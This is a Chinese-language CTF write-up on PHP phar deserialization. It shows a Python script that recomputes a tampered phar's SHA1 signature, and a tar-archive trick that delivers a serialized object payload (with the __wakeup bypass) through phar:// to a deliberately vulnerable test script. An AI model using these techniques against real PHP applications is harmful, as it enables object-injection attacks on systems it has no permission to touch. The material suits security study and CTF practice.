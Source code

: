 ```yaml
---
title: "Phar 签名的修复与绕过"
date: 2022-08-20T20:31:36+08:00
lastmod: 2022-08-20T20:31:36+08:00
draft: false
author: "X1r0z"

tags: ['php', 'ctf']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


phar 反序列化有时候会和 `__wakeup` 的绕过 (CVE-2016-7124) 结合在一起, 直接修改 phar 原始文件的话会报错

原因是 phar 文件包含签名, 解析时会检测文件是否被篡改

做题碰到很多次了, 在这里记录一下

<!--more-->

## 修复签名

phar 签名的相关信息

[https://www.php.net/manual/zh/phar.fileformat.signature.php](https://www.php.net/manual/zh/phar.fileformat.signature.php)

![20220820200827](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820200827.png)

签名支持 MD5, SHA1, SHA256, SHA512, OpenSSL 算法, 默认是 SHA1

其中末尾的4个字节是固定的, 表示该文件存在签名

倒数第8~4个字节表示文件使用的签名算法

倒数8个字节往前就是签名的二进制值, 对文件开头到声明签名部分以前的内容进行计算, 长度视算法类型而定

以 SHA1 为例

在修改了 phar 数据后, 我们需要更改的就是这部分 (20字节长度) 的内容

![20220820201619](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820201619.png)

Python 脚本

```python
import hashlib

with open('phar.phar', 'rb') as f:
    content = f.read()

text = content[:-28]
end = content[-8:]
sig = hashlib.sha1(text).digest()

with open('phar_new.phar', 'wb+') as f:
    f.write(text + sig + end)

```

注意计算 SHA1 的时候要使用 `.digest()` 而不是 `.hexdigest()`, 因为文件本身保存的签名是二进制格式的

其它签名算法同理, 就是切片的长度不一样 (不过一般也不怎么用到)

## 使用 tar 绕过签名

[https://www.anquanke.com/post/id/240007](https://www.anquanke.com/post/id/240007)

在看这篇文章的时候发现 phar 协议对 tar 的处理跟 gzip bzip2 这些不太一样

对 gzip bzip2 处理时, PHP 会将其解压缩, 然后解析里面的 phar 文件

而对 tar 处理时, PHP 会检测压缩包中是否存在 `.phar/.metadata`, 存在的话就会直接将 .metadata 里的内容**直接进行反序列化**

测试代码

```php
<?php

class A{
    public $text = 'test';
    function __destruct(){
        echo $this->text;
    }

    function __wakeup(){
        $this->text = 'fail';
    }
}

file_get_contents($_GET['a']);

?>
```

本地创建 .phar 文件夹和 .metadata 文件

```bash
exp10it@LAPTOP-TBAF1QQG:~/WWW/.phar$ ls -a
.metadata
exp10it@LAPTOP-TBAF1QQG:~/WWW/.phar$ cat .metadata
O:1:"A":2:{s:4:"text";s:7:"success";}
```

tar 压缩, **必须是 Linux 环境**

```bash
tar -cf phar.tar .phar/
```

访问 `index.php?a=phar://phar.tar`

![20220820204322](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820204322.png)

这种方法直接扔掉了 phar 的签名, 修改数据时根本不用担心签名的问题, 也就不存在 "修复签名" 的说法